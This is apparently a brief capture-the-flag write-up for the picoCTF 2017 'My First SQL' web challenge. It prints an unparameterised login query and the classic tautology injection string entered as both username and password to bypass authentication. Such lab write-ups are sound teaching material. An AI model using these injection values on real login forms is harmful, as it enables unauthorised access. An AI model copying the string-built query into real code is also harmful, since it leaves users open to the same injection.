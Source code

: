 ```yaml
---
layout: post
title: Pico CTF 2017 My First SQL
category: ctf
---
```

<b>Category: Web Exploitation
  
My First SQL


<i>I really need access to website, but I forgot my password and there is no reset. Can you help?
HINTS
Have you heard about SQL injection?</i>

SELECT * FROM Users WHERE Username='$username' AND Password='$password'

$username = 1' or '1' = '1

$password = 1' or '1' = '1
